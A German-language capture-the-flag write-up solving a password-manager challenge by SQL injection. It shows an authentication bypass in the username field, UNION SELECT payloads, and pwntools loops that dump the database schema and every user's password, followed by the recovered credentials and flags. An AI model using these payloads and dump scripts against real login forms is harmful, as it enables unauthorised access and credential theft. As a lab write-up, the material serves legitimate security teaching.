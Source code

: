 Man kann sich als Admin einloggen indem man eine SQL-Injection im Username ausnutzt.
SQL-Injection in Username:
```
Username: `admin'--`         
Password: `a`
```

Durch den Usernamen `admin' AND 1=2 UNION SELECT name, sql, name FROM sqlite_master LIMIT 1,2--` findet man die Tabelle `passwords_legacy_backup_backup`.

Der Username: `admin' AND 1=2 UNION SELECT username_or_note, shared_passphrase, shared_passphrase FROM passwords_legacy_backup_backup--` liefert die erste Flagge `flag{sqlmap?is-this-you?::Rj_C8YP879Sj}`

Mit einem kleinen pwntools Script lassen sich alle Tabellen ermitteln:
```python
    for i in range(20):
      r = conn()
      r.recvuntil(b"Username: ")
      r.sendline(b"admin' AND 1=2 UNION SELECT name, sql, name FROM sqlite_master LIMIT "+ bytes(str(i), 'ascii') + b",1--")
      r.sendline(b"a")
      print(r.recvall(1))
      r.close()
```

```sql
CREATE TABLE credential (
    id INTEGER PRIMARY KEY,
    owner INTEGER NOT NULL,
    name TEXT NOT NULL,
    password TEXT NOT NULL,
    FOREIGN KEY(owner) REFERENCES user(id)
)!
```

```sql
CREATE TABLE passwords_legacy_backup_backup (
    username_or_note TEXT NOT NULL,
    shared_passphrase TEXT NOT NULL
)
```

```sql
CREATE TABLE share (
    credential INTEGER NOT NULL,
    user INTEGER NOT NULL,
    PRIMARY KEY (user, credential),
    FOREIGN KEY(credential) REFERENCES credential(id)
    FOREIGN KEY(user) REFERENCES user(id)
)
```

```sql
CREATE TABLE user (
	id INTEGER PRIMARY KEY,    
	username TEXT NOT NULL,    
	password TEXT NOT NULL
)
```

Wenn man durch die user-tabelle iteriert bekommt man Benutzernamen und Passwörter (und die zweite Flagge als Passwort von alice)
```python
def users():
    for i in range(20):
      r = conn()
      r.recvuntil(b"Username: ")
      r.sendline(b"admin' AND 1=2 UNION SELECT username, password, username FROM user LIMIT "+ bytes(str(i), 'ascii') + b",1--")
      r.sendline(b"a")
      r.recvuntil(b"Welcome, \x1b[1m")
      print(r.recvuntil(b"\x1b[0m!"))
      print(r.recvall(1))
      r.close()
```

```
admin:IA6wdtC0XvbcgY1
alice:flag{dont4get::wuZFQ9BWftBl}
bob:8fwaNI/Y-K.&iAhNd(e@1s)]iB@WeYziYH)[A@f
bruce:In days of yore, from tales of old,\n    Seven Norse heroes, brave and bold,\n    Their deeds and lives, forever told,\n    In an epic passpoem, I'll unfold.\n\n    First, there was Thor, god of thunder,\n    Whose hammer strike did oft put asunder\n    The foes of Asgard, his strength did sunder,\n    A mighty hero, none could outwonder.\n\n    Next, Odin, the all-father wise,\n    With ravens, Huginn and Muninn, spies,\n    He sacrificed much, to gain knowledge that lies,\n    And kept Asgard safe from perilous ties.\n\n    Loki, the trickster, his wit did lend,\n    To aid the gods, or chaos extend,\n    Mischief and trouble, his path did bend,\n    A hero or villain, to the end.\n\n    Then there was Freyja, goddess of love,\n    Her beauty, a gift from the heavens above,\n    Magic and aid, she would freely shove,\n    And heal the hearts of those unloved.\n\n    Skadi, the huntress, skilled in archery,\n    Her aim, never off, no matter the scenery,\n    Married Njord, god of the sea,\n    Together, ruling with grace and harmony.\n\n    Baldur, the shining, loved by all,\n    His death a tragedy, none could forestall,\n    But he returned from the underworld's thrall,\n    Bringing light and hope to answer the call.\n\n    Finally, Heimdall, watchman of the gods,\n    His trumpet, Gjallarhorn, gave many nods,\n    To warn of danger, in far off pods,\n    And keep the peace, as was his odds.\n\n    This passpoem epic, I'll commit to memory,\n    A password strong, without vulnerability,\n    Seven heroes, their deeds of legacy,\n    Protecting my secrets, eternally.
dave:Schneier
frank:r0ckYou1973!3
mallory:y0u-w1ll-n3vEr-9ue55-th1s
randall:correct horse battery staple
student-representative:FiJuonga9aeH
```

Wenn man sich nun als Alice in der Oberfläce anmeldet kann man sich die dritte Flagge anzeigen lassen:

```
Log in with your user account:
Username: alice
Password: flag{dont4get::wuZFQ9BWftBl}

Welcome, alice!

Available credentials:

   id | owner? | name
 ---- | ------ | ------------------------------
    0 |        | PIN equipment locker
    2 |        | Old Exams Share
    3 |  yes   | flag
    5 |        | READ ME!
   15 |        | email password
   16 |        | solutions.zip password
   17 |        | exam2023/24 zip password

[show <id>], [share <id>], [delete <id>], [new], [help], or [quit]? show 3

Name: flag
Password: flag{i-hope-you-protect-my-passwords-cryptographically::cZvQnQ0fcWEh}
```
